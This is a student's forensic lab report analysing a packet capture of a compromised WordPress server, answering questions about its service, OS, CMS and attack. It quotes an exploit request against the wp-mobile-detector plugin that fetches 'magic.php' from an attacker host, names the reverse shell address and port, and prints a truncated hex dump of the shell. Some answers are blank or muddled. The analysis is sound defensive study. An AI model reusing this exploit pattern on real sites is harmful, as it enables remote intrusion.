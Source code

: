 # Ethical Hacking Technologies
## Lab Work 2: Attack Analysis

**Student: [Your Name]**

### Aim of the LAB 2

### Working Tools:
- Network traffic image; pcap file.
- Wireshark, tcpdump - network traffic analysis software.

### Methodology for Carrying Out the Lab
**Subject of the Study:** Analysis of a compromised website to identify the attack vector.

**Tasks and Analysis:**
1. **What is the IP address of the site's service?**

   | IP address of the service |
   |--------------------------|
   | 10.2.0.7                 |

2. **Which website hosting service (daemon) and which version of the service is running on the server?**

   | IP address of the server | WEB (HTTP) service      | WEB (HTTP) service version |
   |--------------------------|------------------------|----------------------------|
   | 10.2.0.7                 | Apache/2.4.29 (Win32)   | 2.4.29                     |

3. **Can you determine which operating system is used on the website service?**

   | Server Operating System |
   |-------------------------|
   | Windows (because of TTL 128) |

4. **Can you identify which content management system is used?**

   | CMS and Evidence |
   |------------------|
   | The CMS is WordPress. The URL /web/wp-content/plugins/wp-mobile-detector/resize.php?src=http://10.2.0.4/magic.php indicates a request made to the "wp-mobile-detector" plugin which is developed for WordPress. The path wp-content/plugins is the standard directory where plugins are stored in WordPress sites. This is a strong indication that the WordPress CMS is being used on the site. |

5. **Can you determine which port was used to connect remotely to the server?**

   | IP address where the connection came from | IP address where the connection is made | Port | Service                                       |
   |------------------------------------------|----------------------------------------|------|----------------------------------------------|
   | 10.2.0.7                                 | 83.171.9.248                           | 3389 | Remote Desktop Protocol (RDP) over TCP      |

6. **What is the IP address and port of the reserve shell?**

   | Reverse shell IP address | Reverse shell port |
   |--------------------------|--------------------|
   | 10.2.0.4                 | 1234               |

7. **What does the application do (run)?**

   | Type (malicious) | Action performed by the malware                                                                 | Actions taken by the malware                                                                 |
   |------------------|-------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------|
   | Magic.php        | Establishes a reverse shell connection to the attacker's machine. Executes commands received from the attacker on the compromised server. | Bypasses execution time limits for persistent operation. Attempts to daemonize itself to avoid detection and maintain a background process. Opens a network connection to a specific IP and port controlled by the attacker. Allows the attacker to execute arbitrary commands on the compromised server potentially leading to further exploitation, data theft, or system damage. |

8. **Which message is encoded in the *.php file?**

   | File name    | Message text                                                                                                                               |
   |--------------|-------------------------------------------------------------------------------------------------------------------------------------------|
   | Hacked.php   | Frame 4386: 441 bytes on wire (3528 bits) 441 bytes captured (3528 bits) Ethernet II Src: fa:16:3e:29:17:b5 (fa:16:3e:29:17:b5) Dst: fa:16:3e:f6:26:8a (fa:16:3e:f6:26:8a) Internet Protocol Version 4 Src: 10.2.0.4 Dst: 10.2.0.7 Transmission Control Protocol Src Port: 80 Dst Port: 49348 Seq: 4081 Ack: 63 Len: 387 [4 Reassembled TCP Segments (4467 bytes): #4383(1360) #4384(1360) #4385(1360) #4386(387)] Hypertext Transfer Protocol HTTP/1.1 200 OK\r\n Date: Wed 13 Feb 2019 06:29:54 GMT\r\n Server: Apache/2.4.18 (Ubuntu)\r\n Content-Description: File Transfer\r\n Content-Disposition: attachment; filename=hacked.php\r\n Expires: 0\r\n Cache-Control: must-revalidate\r\n Pragma: public\r\n Content-Length: 4148\r\n Connection: close\r\n Content-Type: application/octet-stream\r\n \r\n [HTTP response 1/1] [Time since request: 0.002024000 seconds] [Request in frame: 4381] [Request URI: http://10.2.0.4/magic.php] File Data: 4148 bytes Data (4148 bytes) Data [truncated]: 3c3f7068700a2f2f202d2d2d2d2d0a2f2f2053656520687474703a2f2f70656e746573746d6f6e6b65792e6e65742f746f6f6c732f7068702d726576657273652d7368656c6c20696620796f752067657420737475636b2e0a0a7365745f74696d655f6c696d6974202830293b0a2 [Length: 4148] |

9. **What is the resulting value when message is decoded?**

   | Meaning encoded | Meaning decoded |
   |-----------------|-----------------|
   |                 |                 |

10. **Attacker information (can you identify the start of the attack?):**

    | MAC (network address)   | Data                                                                                                                                                       | Time                 |
    |-------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------|
    | fa:16:3e:29:17:b5       | 3c3f7068700a2f2f202d2d2d2d2d0a2f2f2053656520687474703a2f2f70656e746573746d6f6e6b65792e6e65742f746f6f6c732f7068702d726576657273652d7368656c6c20696620796f752067657420737475636b2e0a0a7365745f74696d655f6c696d6974202830293b0a2 | Wed 13 Feb 2019 06:29:54 |

